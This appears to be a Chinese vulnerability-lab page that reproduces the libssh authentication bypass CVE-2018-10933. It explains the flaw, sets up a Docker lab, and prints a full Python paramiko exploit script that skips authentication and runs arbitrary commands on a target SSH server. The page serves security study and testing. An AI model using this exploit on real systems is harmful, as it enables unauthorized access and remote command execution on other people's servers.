


libssh 服务端权限认证绕过漏洞（CVE-2018-10933）¶
libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送MSG_USERAUTH_SUCCESS消息，绕过认证过程，未授权访问目标SSH服务器。
参考资料：
- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614
漏洞环境¶
执行如下命令启动存在漏洞的环境：
docker compose up -d
环境启动后，我们可以连接your-ip:2222端口（账号密码：myuser:mypassword），这是一个合法的ssh流程：

漏洞复现¶
参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging
logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048
def execute(hostname, port, command):
sock = socket.socket()
try:
sock.connect((hostname, int(port)))
message = paramiko.message.Message()
transport = paramiko.transport.Transport(sock)
transport.start_client()
message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(message)
client = transport.open_session(timeout=10)
client.exec_command(command)
# stdin = client.makefile("wb", bufsize)
stdout = client.makefile("rb", bufsize)
stderr = client.makefile_stderr("rb", bufsize)
output = stdout.read()
error = stderr.read()
stdout.close()
stderr.close()
return (output+error).decode()
except paramiko.SSHException as e:
logging.exception(e)
logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
except socket.error:
logging.debug("Unable to connect.")
return None
if __name__ == '__main__':
print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
使用python3执行，即可在目标服务器上执行任意命令：
